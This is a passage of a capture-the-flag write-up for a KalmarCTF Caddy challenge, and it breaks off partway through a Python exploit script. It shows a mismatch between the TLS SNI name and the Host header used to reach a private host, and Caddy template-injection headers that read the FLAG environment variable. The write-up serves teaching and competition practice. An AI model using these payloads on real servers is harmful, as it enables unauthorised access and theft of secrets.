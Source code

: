 Something like this:
```
openssl s_client -connect 127.0.0.1:443 -servername public.caddy.chal-kalmarc.tf -quiet  
GET /fetch/headers HTTP/1.1          
Host: private.caddy.chal-kalmarc.tf
exploit: {{env `FLAG`}}

```

correctly returns the flag.

I went down a different path, realizing that you could chain several template functions together to get the string literal (as opposed to raw string literal) from the contents of a different header with the following headers:
```
goofy_exploit: {{ .Req.Header.Flag | toString  | substr 1 5 | env}}
flag: FLAG
```
This template gets the header for the flag function, which is a string array by default, pipes it to the toString function, passes it to the substr function to get rid of the brackets around the converted array, then finally passes it to the env function to get the flag.

This took more work to discover, but works just as well.

## Exploit

**Exploit overview**: The exploit works by first exploiting the malformed TLS certificate checking to get access to the private host, then using the template injection vulnerability to get the flag.

**Exploit mitigation considerations**:
* The TLS handshake must be done with the public server before sending the request to the private server. 
* The /flag endpoint is a red herring, we must find an alternative method to get the flag.
* The template injection vulnerability is mitigated by the server escaping double quotes in the template, so we must use a different method to get the flag.

**Input constraints**: double quotes are escaped in the template. We are limited to putting templates in the headers, as that is the only place where the results are passed to us.

**Exploit description**: 
To automatically exploit this vulnerability, I created two files, a python script and a request.

The python script is used to send the request, exploiting the TLS vulnerability, and the request is designed to exploit the template injection vulnerability.

The python script is as follows:
```python
#!/usr/bin/env python3
import socket
import ssl

# Server details
server_host = "127.0.0.1"
server_port = 443
sni_hostname = "public.caddy.chal-kalmarc.tf"

# Read the request content from file
with open("request.txt", "r") as f:
    request_content = f.read().strip() + "\r\n"

# Create SSL context, insures they python doesent get in our way for sending this malformed request (ssl cert and hostname check)
context = ssl.create_default_context()
context.check_hostname = False
context.verify_mode = ssl.CERT_NONE  # Skip certificate verification (like -k option)

# Create socket and connect
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```